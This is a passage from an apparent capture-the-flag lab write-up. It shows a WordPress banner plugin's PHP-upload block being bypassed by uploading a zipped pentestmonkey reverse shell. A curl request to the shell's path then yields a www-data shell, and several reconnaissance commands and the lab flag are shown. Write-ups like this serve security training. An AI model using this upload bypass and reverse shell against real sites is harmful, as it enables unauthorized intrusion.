 This plugin allows you to upload banners and it allows you to upload them in zip form. Presumably, it will unzip them, so maybe this will bypass the security rule that says no to php files.

I get a php shell from pentestmonkey, and zip it up:

```bash
$ zip shell.zip shell.php                                                   
  adding: shell.php (deflated 59%)
```
I upload it, then set up a netcat listener, then call the shell at its file path and get a shell:

![4](screenshots/4.png)

```bash
┌──(lemmy㉿d43d41us)-[~/hacking/boxes/pgp/loly]
└─$ curl http://loly.lc/wordpress/wp-content/banners/shell.php                
<html>
<head><title>504 Gateway Time-out</title></head>
<body bgcolor="white">
<center><h1>504 Gateway Time-out</h1></center>
<hr><center>nginx/1.10.3 (Ubuntu)</center>
</body>
</html>


www-data@ubuntu:~$ whoami
www-data
www-data@ubuntu:~$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@ubuntu:~$ hostname
ubuntu
www-data@ubuntu:~$ hostname -i
127.0.1.1
www-data@ubuntu:~$ hostname -I
192.168.122.121
www-data@ubuntu:~$ cat local.txt
c05a4787f3858adab4b63af62df6c5fa
```